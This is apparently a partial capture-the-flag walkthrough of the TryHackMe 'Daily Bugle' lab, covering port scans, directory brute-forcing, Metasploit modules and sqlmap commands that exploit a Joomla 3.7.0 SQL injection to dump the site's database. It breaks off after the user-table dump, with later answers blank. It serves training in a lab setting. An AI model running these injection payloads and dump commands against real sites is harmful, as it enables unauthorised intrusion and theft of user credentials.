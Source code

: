 
# Daily Bugle CTF Walkthrough

Daily Bugle is a vulnerable server on TryHackMe.com<br />
<br />
<i>URL: https://tryhackme.com/room/dailybugle<br />
THM Difficulty: Hard<br />
My Difficulty: TBA<br />
Target IP: 10.10.217.112<br />
AttackBox IP: 10.10.222.48<br />
</i>

# Recon

For our first command we will use rustscan, rustscan will scan all of the ports in around 3 seconds.<br />
```shell
rustscan -a 10.10.217.112
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT1.png?raw=true)<br />
Now we know which ports are open, I run an Nmap scan with the flags -sV -sC to find the service versions on the open port and to run Nmaps default scripts on the target.<br />
```
nmap -sV -p22,80,3306 10.10.217.112
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT2.png?raw=true)<br />
We have found multiple services running, let's have a closer look at these services.<br />

## HTTP Service Recon

We're going to start with looking at the HTTP Service, we can see it's running Apache 2.4.6 and PHP5.6.40 from the Nmap scan. I head over to the website below.
```shell
http://10.10.217.112/
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT3.png?raw=true)<br />
Here we have our answer to the first question!<br />

Let's try having bruteforcing some directories with gobuster. I used the command below<br />
```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.217.112/
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT4.png?raw=true)<br />
We are given plenty of results, the one that stood out to me was the /administrator directory, probably the login page for the administrators account? Let's have a look at it now<br />
```shell
http://10.10.217.112/administrator/
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT5.png?raw=true)<br />
Our suspicion is confirmed, we know know that the web service is using Joomla!<br />

### Finding Joomla version with Metasploit

I wonder what version of Joomla they're using..? I know there's a module on Metasploit that does this so let's fire it up!<br />
```shell
msfconsole
```
Now that we have our metasploit loaded, let's look for the joomla version module.<br />
```shell
search joomla_version
use 0
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT6.png?raw=true)<br />
Now we have selected our module let's see what options it requires by using show options
```shell
show options
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT7.png?raw=true)<br />
As you can see from the options available, the only option required is RHOSTS so let's set that and run the scanner!
```shell
SET RHOSTS 10.10.217.112
exploit
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT8.png?raw=true)<br />
Success! We have found the version! This is also one of the answers to our questions. Let's see if this version has any vulnerabilities.

### Exploiting Joomla with Metasploit

We are now going to look for exploits in Joomla 3.7, let's continue in the Metasploit console and execute the folowing<br />
```shell
back
search joomla 3.7.0
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT9.png?raw=true)<br />
We can see one exploit available, let's select the exploit and run "info" for more information to make sure it's compatible with our version of Joomla.<br />
```shell
use 0
info
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT10.png?raw=true)<br />
As we can see from the results this is the correct exploit for our Joomla version. Let's try to explot Joomla! First we'll need to set the required options for the module. Then hit exploit like we did for the scanner!<br />
```shell
set RHOSTS 10.10.217.112
exploit
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT11.png?raw=true)<br />
Uh-oh something went wrong, let's have a look at the "info" command again, let's check out the exploit-db link they provide.<br />
```shell
https://www.exploit-db.com/exploits/42033
```
Let's check if we get an error message when trying to load the URL that's vulnerable. 
```shell
http://10.10.217.112/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT12.png?raw=true)<br />
We get the error message which confirms it's vulnerable to SQL injection. Let's try using SQLmap instead they have the syntax for the command on the exploit-db page.<br />

### Exploiting Joomla with SQLi using SQLMap

We're going to open up a new terminal and try the below command.<br />
```shell
sqlmap -u "http://10.10.217.112/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT13.png?raw=true)<br />
Success! We were able to get the database names, now let's dump the whole database and check the findings! We will use a similar command except replace --dbs with --dump-all. This will take a while so be patient.<br />

<b>This is not the best way to complete the CTF challenge, you could just dump the users instead of the whole database. To do this check SQLMaps syntax.</b><br />
```shell
sqlmap -u "http://10.10.217.112/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dump-all -p list[fullordering]
```
If you receive any messages or requests during the process just follow what I did below. If you understand what it's asking you, feel free to say no until you get the tables you want to dump.<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT14.png?raw=true)<br />

### Just the #__users table and columns

In the example below I only pulled the table #__users and the columns, this is what you'll want to do if you want to skip dumping the whole database.<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT15.png?raw=true)<br />







## Questions & Answers

Question 1:<br />
**Access the web server, who robbed the bank?** Spiderman<br />

Question 2:<br />
**What is the Joomla version?** 3.7.0<br />

Question 3:<br />
**What is Jonah's cracked password?** <br />

Question 4:<br />
**What is the user flag?** <br />

Question 5:<br />
**What is the root flag?** <br />

### Farewell, I hope you all enjoyed this write-up!

